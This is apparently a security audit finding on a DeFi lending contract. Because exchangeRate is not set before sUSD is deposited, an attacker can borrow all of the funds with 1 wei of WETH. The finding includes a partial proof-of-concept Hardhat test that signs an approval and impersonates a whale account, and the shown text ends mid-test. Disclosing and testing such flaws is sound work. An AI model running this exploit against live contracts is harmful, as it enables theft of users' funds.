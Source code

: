 The likelihood of exchangeRate not being set before sUSD is transferred in is high. Looking at S's deploy script, they initialise C and transfer sUSD to bentoBox, before any update of exchangeRate called, leaving it in a vulnerable state open to attack.

This is also evident in their tests, where they expect a borrower/user to `cook` with action ACTION_UPDATE_EXCHANGE_RATE before they borrow.

If S expects the Deployer to manually set the exchangeRate before transferring in sUSD, that is also risky as the deployer could mess up the order or even forget to do so.

### POC
Consider this scenario:
- S deploys BentoBox and C.
- After initialising C, sUSD are minted to the C clone
- Attacker calls borrow with 1 wei of WETH, and borrows/steals all available sUSD

Add this test to `contractsTestGoerli.js`:
```solidity
it('POC1: User can borrow all sUSD while insolvent', async () => {

const { addr1, cloneAddress, BentoBox, CMasterContract, sUSD, WETH_WHALE, wethContract } = await loadFixture(deployTestingFixture);

const nonce = await BentoBox.nonces(addr1.address);

const domainData = {

name: 'BentoBox V1',

chainId: 31337,

verifyingContract: BentoBox.address

};

const messageData = {

warning: 'Give FULL access to funds in (and approved to) BentoBox?',

user: addr1.address,

masterContract: CMasterContract,

approved: true,

nonce

};


const { v, r, s } = await generateSignature(addr1, domainData, messageData);


let cookData = { events: [], values: [], datas: [] };


const CClone = await ethers.getContractAt("C", cloneAddress)



await network.provider.request({

method: "hardhat_impersonateAccount",

params: [WETH_WHALE],
```